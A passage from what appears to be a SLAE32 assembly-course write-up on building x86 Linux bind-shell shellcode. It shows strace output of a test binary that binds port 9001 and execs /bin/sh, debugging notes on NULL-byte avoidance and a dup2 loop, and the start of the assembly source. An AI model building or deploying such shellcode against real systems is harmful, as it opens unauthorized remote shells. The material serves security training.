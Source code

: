 ```
 ```
 root@kali:~/Documents/slae32/exercise_1/second_bind_shell# strace ./second_bind_shell 
execve("./second_bind_shell", ["./second_bind_shell"], 0xbfe76800 /* 41 vars */) = 0
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(9001), sin_addr=inet_addr("1.0.0.0")}, 16) = -1 EADDRNOTAVAIL (Cannot assign requested address)
syscall_0xffff016b(0x3, 0, 0x10, 0, 0x3, 0) = -1 ENOSYS (Function not implemented)
syscall_0xffff016c(0x3, 0, 0, 0, 0x3, 0) = -1 ENOSYS (Function not implemented)
syscall_0xffffff3f(0xffffffda, 0x2, 0, 0, 0xffffffda, 0) = -1 ENOSYS (Function not implemented)
syscall_0xffffff3f(0xffffffda, 0x1, 0, 0, 0xffffffda, 0) = -1 ENOSYS (Function not implemented)
syscall_0xffffff3f(0xffffffda, 0, 0, 0, 0xffffffda, 0) = -1 ENOSYS (Function not implemented)
execve("//bin/sh", [], 0xbf992980 /* 0 vars */) = 0
```

For example, we can see that our hex value used for a system call (0x016c) exists, however the actual value it is attempting to call is 0xffff016b. This is because we only wrote to the lower half of the register using al, leaving anything already in the higher half of the register. After noticing this, I returned to XOR'ing most of the registers before moving values into them. Especially if I was targetting the lower half (al), to ensure the rest of the memory was zeroed.

* removed the 3 separate dup2 chunks and instead added a decrementing loop, using the value of the counter as the 2nd parameter value in ECX. Each iteration would decrement the ECX value down to 0 and check the current value before continuing the loop. If our value was not 0, we would jump back to the beginning of the loop and repeat our previous steps. If our value was 0, we have succesfully called dup2 three seperate times with the 2, 1 and 0 values in the 2nd parameter (ECX) and can safely exit the loop.
* when using a register to move values into them, use the lower half of the register only
    * For example, EAX becomes AL or AX (depending on the size of the value), EBX becomes BL, and so on. Ultimately, this was done to prevent any NULL bytes (\x00) from existing in my final payload.

The total source of our second bind shell attempt can be seen here:

```
global	_start
section .text

_start:
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx

	; SOCKET SYSCALL
	; socket is the first syscall we want with syscall number is 359 (0x167)
	; EAX = syscall number, ebx = param 1 (2), ecx = param 2 (1), edx = param 3 (0)
	mov ax, 0x167
	mov bl, 0x2
	mov cl, 0x1
	; we don't do anything with edx as 0 already exists from the xor above

	int 0x80 ; this interrupt signal handles the syscall
	mov edi, eax ; store the return value in edi for future ref
